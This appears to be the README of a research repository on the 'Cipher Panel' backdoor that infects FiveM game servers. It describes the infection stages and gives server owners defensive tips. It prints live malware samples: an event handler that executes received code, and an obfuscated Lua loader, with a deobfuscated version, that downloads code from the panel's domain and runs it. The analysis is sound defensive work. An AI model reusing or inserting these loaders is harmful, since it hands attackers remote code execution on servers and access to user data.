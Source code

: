 # MaliciousPanel
Cipher Panel Research (To clarify I have 0 connections to the group behind Cipher Panel, I'm merely researching this malicious panel for Cfx and server owners)

With respect to @ericstolly's research, I have dug up more information and together with his research this repo has been created. 
Mainly for information and educational purposes for server owners to figure out how what and where.

The several stages will be found in the files of this repo, there's also tools available (for now very limited) and a file which they infected. Don't worry it's only effective whenever you drop this file in the server files at the right position.

Explaination of the several stages:

*Stage 1*: This stage is the "exploit" stage, just depends on what you want to name it. 
In this stage they are gaining entry into your FiveM server and talking with their panel. 

*Stage 2*: This stage is the Payload phase, this is when they're re-writing your sessionmanager files and build a control base for further spreading and infection of other resources.

*Stage 3*: This is the spread phase, this is mainly a bridge between phase 2 and phase 4, this is where local functions are added throughout several scripts and where the fxmanifests are edited to use / run MySQL statements assumably for gaining access to the IP's and user data. But most these days use other mysql scripts so it's pretty obvious when there is a `server_script {'@mysql-async/lib/MySQL.lua'}` added. 

*Stage 4*: This is the control stage, this is where the panel sends out triggers to the several listening functions, how they do it? Read in phase 4 docs.
In the basis they're performing simple HTTP requests to their panel. Whenever the panel sends out a call to action, the response in the web body changes and the functions reading the web body will then distribute the events either client or server sided. Also txAdmin is victim of this, disabling the whitelist for example or bypassing a txAdmin ban.

**Tips for now**:
- Use a other mysql script
- Use a 3rd Party script for your bans and whitelist
- Disable their website in the hosts file (in case of Windows)
- Re-install the fresh sessionmanager
- Use notepad++ to search for any obfuscated functions with the information that will be available per phase documentation

**Traces Found**:
```
RegisterNetEvent('helpCode')

AddEventHandler('helpCode', function(id)
	local help = assert(load(id))
	help()
end)
```
Code from stage2 or stage3 will be send via a event and executed here. 

In rconlog we found some obfuscated code, which is the same as the stage2 code but a different page which still these days is unknown what it's contents are or how to gain the contents of this page. Only thing known is that it's in the server sided and downloads the body of the page. 
https://cipher-panel.me/_i/r.php?to=0

Code:
```
local BaoWmVjtyB = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local CKGzkhSwYw = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function uGeRrdKRtK()
	JJcQCUzzCK = ''
	for id,it in pairs(CKGzkhSwYw) do
		JJcQCUzzCK = JJcQCUzzCK..it
	end
	return (JJcQCUzzCK:gsub('..', function (luwOyroAEjA)
		return string.char(BaoWmVjtyB[4](luwOyroAEjA, 16))
	end))
end

BaoWmVjtyB[BaoWmVjtyB[4]('1')](uGeRrdKRtK(), function (e, jKlDPYMVkD)
	local YlEkQSXGlZ = BaoWmVjtyB[BaoWmVjtyB[4]('2')](BaoWmVjtyB[BaoWmVjtyB[4]('3')](jKlDPYMVkD))
	if (jKlDPYMVkD == nil) then return end
	YlEkQSXGlZ()
end)
```
Doing our magical de-obfuscating and using the dehex function we can see that it downloads (just like the rest) the contents of the page r.php and executes it. The methods are the same as in the sessionmanager host_lock.lua file.
De-Obfuscated Code:
```
local VarArray = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local HEXArray = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function Func1()
	String = ''
	for id,it in pairs(HEXArray) do
		String = String..it
	end
	return (String:gsub('..', function (var1)
		return string.char(VarArray[4](var1, 16))
	end))
end

PerformHttpRequest(Func1(), function (e, responseBody)
	local Payload = assert((load(responseBody)))
	if (responseBody == nil) then return end
	Payload()
end)
```
